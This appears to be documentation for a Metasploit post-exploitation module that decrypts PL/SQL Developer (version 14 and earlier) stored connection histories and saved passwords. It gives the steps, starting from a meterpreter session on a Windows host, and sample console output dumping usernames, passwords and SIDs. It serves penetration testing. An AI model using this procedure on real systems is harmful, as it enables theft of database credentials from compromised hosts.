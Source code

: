 ## Vulnerable Application

This module can decrypt the histories and connection credentials of PL/SQL Developer,
and passwords are available if the user chooses to remember.

Note: This module can only decrypt the passwords of PL/SQL Developer 14 and earlier versions.
The passwords of PL/SQL Developer 15 and later versions are encrypted with a new algorithm,
which is not supported by this module.

Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).
You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer 14 or earlier versions.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases. Or add a connection in PL/SQL Developer manually.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/plsql_developer`
  6. The username, password, SID of connections will be printed.

## Options

 **PLSQL_PATH**

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer Histories and Connections on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
PL/SQL Developer Histories and Credentials
==========================================

DisplayName           Username  Database  ConnectAs  Password         FilePath
-----------           --------  --------  ---------  --------         --------
                      user      server    Normal     password         C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                      sys       ORCL      SYSDBA     oracle           C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                      test1     ORCL      Normal                      C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                      test2     ORCL      Normal     password2        C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
Imported History/ASD  eee       ttt       Normal     asdfg            C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231108010519_default_172.18.14.79_host.plsql_devel_637423.txt
meterpreter >
```
